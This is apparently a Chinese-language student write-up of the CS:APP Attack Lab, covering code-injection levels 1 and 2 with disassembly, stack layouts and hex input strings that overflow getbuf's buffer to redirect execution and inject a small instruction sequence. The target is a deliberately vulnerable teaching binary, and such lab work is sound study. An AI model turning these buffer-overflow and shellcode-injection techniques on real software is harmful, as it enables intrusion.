 # Part I: Code Injection Attacks
由于Lab程序编译平台比较老，运行时会出现segment fault。可以自己链接一个printf函数来解决这个问题。详细见[Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04](https://blog.rijuyuezhu.top/posts/db646f34/)  
运行时使用如下命令
```
$ LD_PRELOAD=./printf.so ./ctarget -q
```
或在GDB中使用
```
(gdb) set environment LD_PRELOAD=./printf.so
```

## Level 1
阅读`getbuf`函数反汇编代码可以发现调用时分配了`0x28`大小的栈空间，该空间包括了`BUFFER_SIZE`指定的空间大小和编译器预留的空间。再往上`0x8`字节即为返回地址。输入字符串覆盖该地址即可。
```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
```
查找`touch1`函数的地址为`0x4017c0`, 小端表示并扩展到`0x8`字节得到
```
c0 17 40 00 00 00 00 00
```
前面随便填充`0x28`字节的字符即可

## Level 2
使用gdb查看运行时栈地址, 注意到调用`getbuf`后栈地址维持`0x5561dca0`不变, 考虑直接写入指令进行攻击
注意此时栈指针`%rsp`经过经过一次`ret`后值为`0x5561dca8`, 顶部 8 bytes写入`touch2`地址进行`ret`
```
0x5561dca8 ec 17 40 00 00 00 00 00
```
继续往上8 bytes用于存储需要传入的`cookie`, 起始地址距栈顶`0x8`
```
0x5561dcb0 fa 97 b9 59 00 00 00 00
```
攻击执行的汇编指令如下
```
mov 0x8(%rsp),%rdi
ret
```
参考已有的反汇编代码可以写为16进制指令
```
mov 0x8(%rsp),%rdi  48 8b 7c 24 08
ret                 c3
```
指令共6 bytes. 反推从`getbuf`返回时的执行指令地址为`0x5561dca8 + 0x8 + 0x8 = 0x5561dcb8`
整理为写入后的栈帧
```
0x5561dcbd c3 
0x5561dcb8 48 8b 7c 24 08
0x5561dcb0 fa 97 b9 59 00 00 00 00
0x5561dca8 ec 17 40 00 00 00 00 00
0x5561dca0 b8 dc 61 55 00 00 00 00 
```